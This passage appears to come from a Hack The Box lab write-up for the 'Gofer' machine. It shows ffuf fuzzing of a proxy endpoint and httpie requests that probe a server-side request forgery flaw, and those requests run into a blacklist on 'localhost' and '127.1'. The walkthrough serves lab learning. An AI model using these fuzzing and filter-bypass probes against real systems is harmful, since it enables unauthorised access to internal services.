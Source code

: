 Since the email referenced restricted access, I also fuzzed `proxy` for POST requests and that returns a 200 for `index.php`.

```bash
> ffuf -X POST -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://proxy.gofer.htb/FUZZ -o ffuf_proxy_post.md -of md -t 100 -fs 462

.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 71ms]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4692ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4707ms]
index.php               [Status: 200, Size: 81, Words: 9, Lines: 2, Duration: 59ms]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 60ms]
```

When making a POST request to `index.php`, it raises an error about a missing URL parameter, could be a potential Server-Side Request Forgery (SSRF) vulnerability.

```bash
> http POST proxy.gofer.htb/index.php
HTTP/1.1 200 OK
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 94
Content-Type: text/html; charset=UTF-8
Date: Tue, 08 Aug 2023 18:28:34 GMT
Keep-Alive: timeout=5, max=100
Server: Apache/2.4.56 (Debian)
Vary: Accept-Encoding

<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```


### Exploiting  SSRF

Given that the index page only accepts POST requests, I assumed it would require either raw or JSON POST data for proper interaction. However, it only accepts the `url` param as GET parameter. For `httpie`, POST parameters are set using `=` and GET parameters can be set using `==`.

```bash
> http -pb POST proxy.gofer.htb/index.php url=http://localhost
<!-- Welcome to Gofer proxy -->
<html><body>Missing URL parameter !</body></html>
```

When attempting to exploit the SSRF vulnerability, I discovered that words like `localhost` and its common bypasses were blacklisted.

```bash
> http -pb POST proxy.gofer.htb/index.php url==http://localhost
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: localhost !</body></html>

> http -pb POST proxy.gofer.htb/index.php url==http://127.1
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>
```
